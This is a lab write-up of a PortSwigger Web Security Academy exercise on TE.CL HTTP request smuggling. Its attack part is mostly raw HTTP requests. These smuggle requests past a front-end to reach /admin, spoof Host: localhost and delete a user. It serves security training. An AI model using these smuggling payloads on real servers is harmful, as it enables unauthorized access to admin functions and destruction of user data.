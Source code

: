 # Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability | Feb 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl), you'll learn: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. There's an admin panel at `/admin`, but the front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user `carlos`.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201160904.png)

According to the lab's background, there is an admin panel at `/admin`.

Let's try to access it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201160941.png)

Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201160949.png)

As you can see, that path is blocked.

To bypass that, we can try to smuggle an evil request.

But before we do that, let's test is it vulnerable to **CL.TE** (Front-end uses `Content-Length` header, back-end uses `Transfer-Encoding` header) or **TE.CL** (Front-end uses `Transfer-Encoding` header, back-end uses `Content-Length` header) HTTP request smuggling.

**To do so, we can send a `/` request to Burp Suite's Repeater:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201161146.png)

**Then change the request method to POST:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201161205.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201161209.png)

- CL.TE:

**We can first send an attack request, then send a normal request to `/`.**

**Attack request:**
```http
POST / HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X-Foo: x
```

This will smuggle a 404 page GET request.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201161512.png)

However, when we send this smuggled request, the back-end server returns HTTP status code "500 Internal Server Error".

**Which means it's using TE.CL**.

- TE.CL:

**Again, we can first send an attack request, then send a normal request to `/`.**

**Attack request:**
```http
POST / HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

aa
GET /404pls HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

This attack request will smuggle a 404 page GET request.

> Note: To send this request, you must include the trailing sequence `\r\n\r\n` following the final `0`, and go to the Repeater menu and ensure that the “Update Content-Length” option is unchecked.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162025.png)

**Normal request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162119.png)

In here, when we send the normal request, it'll also send a `/404pls` GET request, thus returns HTTP status "404 Not Found".

Hence, it's confirm that the web application is **vulnerable to TE.CL HTTP request smuggling.**

**Now, we can do the same thing to bypass the `/admin` admin panel:**
```http
POST / HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

a9
GET /admin HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162346.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162352.png)

We can confirm that we've bypassed the `/admin` access block!

However, it said: "Admin interface only available to local users".

Luckly, we can still bypass that.

**Let's try changing the `Host` header to `localhost`:**
```http
POST / HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

79
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

smuggled=yes
0


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162610.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162620.png)

Boom! We can finally access to the admin panel!

**Let's delete user `carlos`!**
```http
POST / HTTP/1.1
Host: 0acf00f60450a586c32e10f900470091.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

90
GET /admin/delete HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 36

username=carlos&smuggled=yes
0


```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162800.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162806.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-7/images/Pasted%20image%2020230201162812.png)

Nice!

# What we've learned:

1. Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability